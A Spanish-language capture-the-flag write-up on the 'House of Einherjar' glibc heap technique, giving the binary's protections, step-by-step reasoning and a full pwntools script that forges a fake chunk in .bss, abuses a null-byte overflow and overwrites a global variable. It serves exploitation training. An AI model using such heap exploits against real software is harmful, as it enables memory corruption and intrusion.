 # House of Einherjar
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'../.glibc/glibc_2.28_no-tcache'
    Stripped:   No
    Debuginfo:  Yes
```

Si existe la posibilidad de obtener una shell en este reto la desconozco. El objetivo de este reto fue sobreescribir la variable global `target`.

Nos dan la direccion del heap y podemos provocar un heap overflow reservando chunks no alineados a 16 bits. Por ejemplo reservar 0x88 bytes hace que `malloc` lo alinee y acabe reservando un chunk de `0x90`, `0x10` de metadatos, el resto para los datos introducidos.

Tambien cuando editamos el contenido de un chunk el programa añade '\0' al final, provocando un desbordamiento extra de un NULL BYTE.

Usando la tecnica homonima, estos son los pasos para reservar un chunk en `.bss` y sobreescribir `target`:
1. Creamos un chunk falso en la variable `user`, con `prev_size`, `size` = 0 y con `fd`, `bk` = 0x602010 (direccion de `user`).
2. Creamos dos chunks: `A`, del tamaño permitido, y `B`, de tamaño `0xf8`.
3. Editamos A y con el heap overflow sobreescribimos `B->prev_size` con la distancia entre `B` y el chunk falso de `user`. De paso el NULL BYTE sobreescribe el bit `PREV_INUSE` en `B->size`.
4. Liberamos B, provocando que se consolide con el chunk falso.
```
  /* La verificacion de integridad  chunksize (p) != prev_size (next_chunk (p))) es esquivada porque:
   chunksize(p) = 0
   next_chunk(p) = p + chunksize(p) = p
   prev_size(next_chunk(p)) = prev_size(p) = 0
 */
```
5. Reservamos un chunk `C` que acaba en la seccion `.bss`, en la direccion de `user`.
6. Sobreescribimos target con el overflow.

## Exploit

```py
from pwn import *

r = process("./house_of_einherjar")

def malloc(size):
    r.sendlineafter(b">",b"1")
    r.sendlineafter(b"size:",str(size).encode())
def free(idx):
    r.sendlineafter(b">",b"2")
    r.sendlineafter(b"index:",str(idx).encode())
def edit(idx,data):
    r.sendlineafter(b">",b"3")
    r.sendlineafter(b"index:",str(idx).encode())
    r.sendafter(b"data:",data)

# Create fake chunk A
fake_chunk = p64(0) + p64(0) + p64(0x602010)*2
r.sendafter(b"username:",fake_chunk)

# chunksize (p) != prev_size (next_chunk (p)))

# Leak heap address
r.recvuntil(b"@ ")
heap = int(r.recv(10),16)

# Alloc B and C
# malloc alignment allocs a 0x90 chunk with 0x10 bytes for metadata
# and only 0x80 bytes for data, we can overflow C->prev_size
malloc(0x88)
malloc(0xf8)

fake_size = (heap + 0x90) - 0x602010

# Overflow C with B
# It adds a null byte to C->size and unset it's PREV_INUSE bit
edit(0,b"A"*0x80 + p64(fake_size))

# Call unlink_chunk, consolidating A and C
free(1)

# av->top = 0x602010 (user)

# Allocate a new chunk and overwrite target
malloc(0x100)
edit(2,p64(0) * 2 + b"_s1s1fo_")

r.interactive()
```

